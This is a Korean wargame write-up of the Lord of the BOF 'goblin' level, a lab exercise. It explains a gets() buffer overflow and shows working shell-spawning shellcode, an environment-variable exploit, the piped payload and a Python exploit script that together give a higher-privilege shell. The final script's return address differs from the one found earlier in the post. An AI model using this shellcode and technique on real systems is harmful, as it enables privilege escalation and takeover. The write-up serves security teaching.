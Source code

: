 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180828
layout: article
category: write-up
date: 2018-08-28 00:00:00 +0900
modify_date: 2024-04-24
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png

---
```

[+ stdin](#){:.button.button--outline-success.button--pill}
> cobolt / hacking exposed

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

------

### 0x01. Static Analysis

16byte크기의 buffer배열을 선언하고 gets함수를 이용하여 buffer에 값을 입력받아 저장한다.

cobolt 문제와 다른점은 cobolt에서는 main함수의 argv로 사용자에게 입력값을 받았다면, 이 문제는 gets를 이용하여 사용자에게 입력값을 받는다.

따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.

gets를 이용하여 사용자가 입력한 값을 buffer배열로 복사할때 복사되는 크기가 정해져있지 않아 **BoF(Buffer OverFlow) 취약점**이 존재한다.
{:.info}

------

### 0x02. Dynamic Analysis

buffer배열의 크기가 16Byte로 Shellcode보다 크기가 작으므로 환경변수를 이용하여 풀이한다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```shell
[cobolt@localhost cobolt]$ export shellcode=`python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
[cobolt@localhost cobolt]$ export
...생략...
declare -x USER="cobolt"
declare -x USERNAME=""
declare -x shellcode="��������������������������������������������������1�Ph//shh/bin��PS�ᙰ
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/01.png" width="800px">{:.rounded.shadow}

`shellcode` 환경변수에 Shellcode를 넣는다.

<br>

```c
//env.c
main(){
    printf("0x%08x\n", getenv("shellcode") );
}
```

```shell
[cobolt@localhost cobolt]$ gcc -o env env.c
[cobolt@localhost cobolt]$ ./env
0xbfffff3b
```

`shellcode` 환경변수의 주소를 구하는 프로그램을 만들어 주소를 구해온다. (0xbfffff3b)

**[!] gdb에서 run 명령 시 user input 주는 방법 1**  
1) 입력하고나 하는 문자열을 파일로 생성  
$ python -c 'print "A"*10>tmp  
2) gdb에서 run 명령어 실행 시 파일 내용 입력   
(gdb) r<tmp   
{:.info}

**[!] gdb에서 run 명령 시 user input 주는 방법 2**   
1) 스크립트 실행 결과를 임시파일 생성 후 바로 임시파일의 내용 입력  
(gdb) r \`python -c 'print "A"*10'>tmp\`<tmp
{:.info}


-----

### 0x03. Exploit

여기서 한번 생각해야 할 점은, Cobolt문제는 프로그램의 인자값으로 값을 넘겨주기 때문에 프로그램을 실행할때 프로그램 이름 뒤에 인자로 Payload를 넘겨주면됐다.

하지만 이번 문제는 프로그램 내부에서 입력값을 받기 때문에 같은 방법으로는 Payload를 넘겨줄 수 없다.

따라서 Pipe('\|')를 사용해야 한다. (Pipe명령어는 왼쪽 **표준출력**을 오른쪽에 **표준입력**으로 넘겨주는 역할을 한다.)

표준입력으로 넘겨주어야 하기 때문에 `cat` 와 `;`명령어를 함께 사용해야 한다. (FTZ 12번 문제를 풀었다면 쉽게 이해할 수 있을 것이다.)

```shell
[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\x3b\xff\xff\xbf"';cat)|./goblin
AAAAAAAAAAAAAAAAAAAA;���
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```

> Cobolt문제와 풀이방법이 동일하므로 상세설명은 생략했다.

-----

### 0x04. 정리

Cobolt 문제에서 BoF 취약점이 존재했던 strcpy함수 외에도 gets함수도 입력값 크기 검증이 없기때문에 동일하게 BoF 취약점이 존재하는 것을 확인할 수 있는 문제였다.

그리고 프로그램 내부에서 사용자 입력값을 받을 때 어떻게 입력값을 넘겨주어야 하는지도 알게되는 문제였다.

-----

```python
#ex.py
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/cobolt/goblin"

shellcode_env_addr = 0xbffffc33

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

print payload
```

```
(python ex.py;cat)|./goblin
```

-----

